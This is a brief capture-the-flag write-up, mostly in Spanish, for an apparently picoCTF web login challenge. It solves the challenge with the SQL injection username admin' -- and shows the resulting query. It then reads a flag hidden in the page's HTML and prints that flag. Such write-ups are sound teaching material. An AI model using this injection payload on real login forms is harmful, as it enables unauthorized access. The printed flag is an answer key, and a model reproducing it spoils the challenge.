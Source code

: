 
## Description

Can you login to this website?

Additional details will be available after launching your challenge instance.

## Hint

`admin` is the user you want to login as.

## Solution

Hacemos una pequeña inyección SQL en el campo USERNAME: admin' -- sin pornmer nada en el campo PASSWORD.

```
username: admin' --
password: 
SQL query: SELECT * FROM users WHERE name='admin' --' AND password=''

# Logged in! But can you see the flag, it is in plainsight.


Inspeccionamos el código del html, y ahí se encuantra la flag.


/pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}</p>


flag -> picoCTF{L00k5_l1k3_y0u_solv3d_it_d3c660ac}
```


